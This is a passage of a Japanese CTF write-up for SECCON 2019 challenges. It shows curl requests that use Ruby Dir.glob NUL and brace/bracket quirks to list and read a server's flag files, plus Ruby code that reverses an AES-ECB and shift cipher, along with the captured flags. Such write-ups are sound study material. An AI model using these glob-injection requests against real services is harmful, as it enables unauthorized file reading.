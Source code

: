 
```text
SECCON{Yeah_Sqli_Success_You_Win_Yeah}
```


# File Uploader(Web 345pts)


ファイル一覧の列挙は`Dir.glob`を`'\0'`は区切り文字とする仕様を利用しておこなうことができる。


```text
$ curl -g 'http://fileserver.chal.seccon.jp:9292/%00/tmp/flags/'  --output -
```


実際のファイルの取得時には`'\0'`を含めることが出来ないので、`is_bad_char`がマッチしない`[]`を見つけたらマッチする`{}`が存在してもスルーする問題を利用して、ファイルを指定する。


```text
$ curl -g 'http://fileserver.chal.seccon.jp:9292/%7b,%5c%5b%7d/tmp/flags/gLDFPzpsZECShkdFtRXAG7u0KDWxDBtk.txt'
```


```text
SECCON{You_are_the_Globbin'_Slayer}
```


# coffee break(Crypto 56pts)


逆変換を書く


```ruby
require 'openssl'

a = 'FyRyZNBO2MG6ncd3hEkC/yeYKUseI/CxYoZiIeV2fe/Jmtwx+WbWmU1gtMX9m905'.unpack1('m')
c = OpenSSL::Cipher.new('AES-128-ECB')
c.key = "seccon2019" + "\0" * 6
b = c.update(a) + c.final
p b
key = "SECCON"
s = ''
b.size.times do|i|
    s += (((b[i].ord - 0x20) - (key[i % key.size].ord - 0x20)) % (0x7e - 0x20 + 1) + 0x20).chr
end
p s
```


```text
SECCON{Success_Decryption_Yeah_Yeah_SECCON}
```


# Zkpay(Crypto 308pts)
